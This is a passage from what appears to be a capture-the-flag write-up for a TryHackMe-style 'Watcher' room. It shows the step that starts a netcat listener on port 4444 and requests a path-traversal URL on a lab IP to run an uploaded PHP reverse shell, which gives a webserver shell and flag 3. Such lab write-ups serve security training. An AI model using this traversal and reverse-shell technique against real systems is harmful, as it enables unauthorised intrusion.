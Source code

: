 ![img](/assets/thm_watcher/bg_8.png)

After doing that you must set netcat `nc -lvnp 4444` for shell and we can go to file upload in `http://10.10.35.205/post.php?post=../../../../../home/ftpuser/ftp/files/php-reverse-shell.php`.

![img](/assets/thm_watcher/bg_9.png)

So now we have shell of webserver, then we get flag_3.txt.

### Flag 3
